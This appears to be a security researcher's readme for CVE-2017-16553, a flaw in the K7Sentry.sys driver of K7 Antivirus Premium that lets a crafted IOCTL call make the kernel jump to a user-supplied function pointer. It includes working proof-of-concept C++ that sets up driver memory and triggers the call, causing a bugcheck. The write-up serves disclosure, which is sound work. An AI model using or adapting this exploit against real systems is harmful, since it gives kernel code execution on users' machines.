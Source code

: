 # CVE-2017-16553
# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7Sentry.sys 15.1.0.45*

# Related
The majority of this issue is still valid here so the write up isn't going to be duplicated.
[CVE-2017-16551](../CVE-2017-16551/readme.md)

# Details
## Vulnerability
The *K7Sentry.sys* exposes a significant amount of functionality through its DispatchHandler interface. Some of this calls through to common code which performs different actions depending on where it is called from. This appears to be to reduce code duplication. However, it is possible to confuse the routines and get consistent control of the instruction pointer.

This issue looks at the ControlCode 0x95002873 which is a wrapper around a call to *ZwQueryInformationFile*.

The main difference between this writeup and CVE-2017-16551 is the offset in unk9 is different:
```C++
unsigned int __usercall QueryInformationFileWrapper@<eax>(unk3 *pUnk3@<esi>)
{
    // ...
    pUnk9 = pUnk3->pUnk9;
    if ( !pUnk9 )
        return 0;
    v8 = (int (__cdecl *)(HANDLE))pUnk9->pfnQueryInformationFile_10;
    if ( !v8 )
        return 0;
    v9 = v8(pUnk3->hFile);
    // ...
}
```

The offset for this control code is 0x10 which is reflected in the UNK9 structure in the PoC code.


# PoC Code
This proof of concept code will cause a bugcheck identical to CVE-2017-16551.

```C++

#pragma pack(push)
#pragma pack(1)
// Aka Unknown2
typedef struct _UNK9
{
	DWORD offset_0;
	DWORD function_ReadFile;
	DWORD function_WriteFile;
	DWORD function_SetInformationFile;
	DWORD function_Query;
} UNK9, *PUNK9;

// Aka Unknown1
typedef struct _UNK3
{
	BYTE magic;
	BYTE ff;
	DWORD offset_2;
	PUNK9 pUnk9;
} UNK3, *PUNK3;

#pragma pack(pop)


VOID __cdecl KernelCallback(HANDLE hFile, DWORD dwUnknown)
{
	__asm
	{
		mov eax, 0xaaaaaaaa
		mov ebx, 0xbbbbbbbb
		mov ecx, 0xcccccccc
		mov edx, 0xdddddddd
		mov esi, 0xd00dd00d
		mov edi, 0xcafecafe
		mov DWORD_PTR[0xCAFED00D], 0xcafecafe
	}
}

VOID SetupMemory_0x9500286F(HANDLE hFile)
{
	BYTE outBuffer[0x8000] = { 0 };
	BYTE data[0x8000] = { 0 };

	memset(data, 0x41, sizeof(data));
	DWORD dwBytesReturned = 0;

	UNK9 stUnk9 = { 0 };
	// This must not be 0;
	stUnk9.offset_0 = 1;

	printf("Function: 0x%p\r\n", KernelCallback);

	stUnk9.function_ReadFile = (DWORD)KernelCallback;
	stUnk9.function_WriteFile = (DWORD)KernelCallback;
	stUnk9.function_SetInformationFile = (DWORD)KernelCallback;
	stUnk9.function_Query = (DWORD)KernelCallback;

	memcpy(data, &stUnk9, sizeof(UNK9));

	printf("Setting up global buffer\r\n");

	// This will fill the buffer at 0x4efe8 to be the data we pass into it
	if (!DeviceIoControl(hFile, 0x95002580, data, sizeof(data), outBuffer, sizeof(outBuffer), &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global");
	}

	//
	// Now we need to set up the state before it, this is pretty easy as we are just passing in a 
	// single DWORD. This is 0x4efe0
	//
	printf("Setting up K and FF\r\n");
	DWORD dwUnk3Magics = 0xFF4B0000;
	if (!DeviceIoControl(hFile, 0x950025D4, &dwUnk3Magics, sizeof(DWORD), outBuffer, sizeof(outBuffer), &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global");
	}
}

VOID TriggerFunctionCall(HANDLE hFile)
{
	// ************* CHANGE ME *************
	// This can be done dynamically if required.
	DWORD dwDriverBase = 0x86ecd000;
	// *************************************
	DWORD dwBufferPtrWeControl = 0x4f760+2 - 0x10000 + dwDriverBase;

	BYTE data[0x8000] = { 0 };
	BYTE outBuffer[0x8000] = { 0 };

	memset(data, 0x41, sizeof(data));
	DWORD dwBytesReturned = 0;
	(*(DWORD*)data) = dwBufferPtrWeControl;

	// QueryFile
	if (!DeviceIoControl(hFile, 0x95002873, data, 8, outBuffer, 4, &dwBytesReturned, NULL))
	{
		printf("Error: 0x%08x\r\n", GetLastError());
	}
	else
	{
		printf("Success: Got data into global\r\n");
	}
}


VOID MedToKernel()
{
	HANDLE 	hDevice = CreateFileW(L"\\\\.\\k7sentry", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);

	BYTE arrInput[0x1000] = { 0 };
	BYTE arrOutput[0x1000] = { 0 };
	DWORD dwBytesReturned = 0;

	SetupMemory_0x9500286F(hDevice);
	TriggerFunctionCall(hDevice);
}

```